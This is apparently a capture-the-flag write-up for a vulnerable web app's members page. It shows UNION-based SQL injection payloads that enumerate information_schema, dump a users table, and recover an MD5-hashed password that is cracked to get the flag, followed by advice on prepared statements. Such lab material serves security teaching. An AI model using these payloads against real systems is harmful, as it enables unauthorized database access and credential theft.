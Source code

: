 # MEMBERS PAGE

## Explanations

In the members page, we encounter a textfield with a submit to search a member by ID.

Before even beginning, if we submit nothing we have this message:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1` => an SQL injection seems to be possible !

Typing an ID gives us indeed a user linked to that ID, for example typing `1` will give us:

```
ID: 1
First name: Barack Hussein
Surname : Obama
```

Now let's get some more informations about the database.

We can try to add another SQL request with `UNION` and get more infos with the request:

```sql
 1 UNION SELECT * FROM information_schema.columns
```

giving us this output:

```
The used SELECT statements have a different number of columns
```

It seems like we need to select only 2 informations because our first SQL request only gave us `First name` and `Surname` (the output needs to remain on 2 columns)

So let's get all the columns and tables avalaible on the dabase with:

```sql
 1 UNION SELECT column_name, table_name FROM information_schema.columns
```

It worked ! By looking closely we see a `users` table that has 8 columns:  
 `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` and `countersign`

Let's check each users with:

```sql
1 UNION SELECT last_name, first_name FROM users
```

One of the users returns us `GetThe` as 'last_name' and `Flag` as 'first_name' !

By checking the other infos about this user, we finally try:

```sql
1 UNION SELECT Commentaire, countersign FROM users
```

and get:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's get this flag now !

First we decrypt (MD5) `5ff9d0165b4f92b14994e5c685cdce28` which gives us `FortyTwo` then lowered the chars to `fortytwo`

Finally, we get the flag by applying SHA256 which gives us : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

#### Sources

- [All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
- [SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
- [MD5 Decrypter](https://md5decrypt.net/)
- [SHA256 Encrypter](https://md5decrypt.net/Sha256/)
